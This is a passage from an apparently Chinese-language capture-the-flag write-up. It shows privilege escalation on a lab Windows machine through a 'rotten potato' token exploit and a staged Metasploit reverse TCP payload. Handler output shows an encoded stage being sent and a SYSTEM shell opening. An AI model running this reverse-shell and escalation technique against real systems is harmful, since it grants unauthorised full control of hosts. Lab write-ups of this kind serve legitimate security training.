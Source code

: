 [+] CreateProcessWithTokenW OK
PS C:\Users\kohsuke\Documents> 

```

这里要注意，由于我们编译的时候用的是分段shell```windows/shell/reverse_tcp```，这里需要用handler接收

如果使用非分段payload```windows/shell/reverse_tcp```，烂土豆执行好像又会有问题。。

收到system shell

```
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.16.4:443 

[*] Encoded stage with x86/shikata_ga_nai
[*] Sending encoded stage (267 bytes) to 10.10.10.63
[*] Command shell session 1 opened (10.10.16.4:443 -> 10.10.10.63:49737) at 2022-05-31 12:30:03 -0400


C:\Windows\system32>
C:\Windows\system32>whoami
whoami
nt authority\system

C:\Windows\system32>ipconfig
ipconfig

Windows IP Configuration


Ethernet adapter Ethernet0:

   Connection-specific DNS Suffix  . : 
   IPv4 Address. . . . . . . . . . . : 10.10.10.63
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 10.10.10.2

Tunnel adapter isatap.{4079B648-26D5-4A56-9108-2A55EC5CE6CA}:

   Media State . . . . . . . . . . . : Media disconnected
   Connection-specific DNS Suffix  . : 

C:\Windows\system32>

```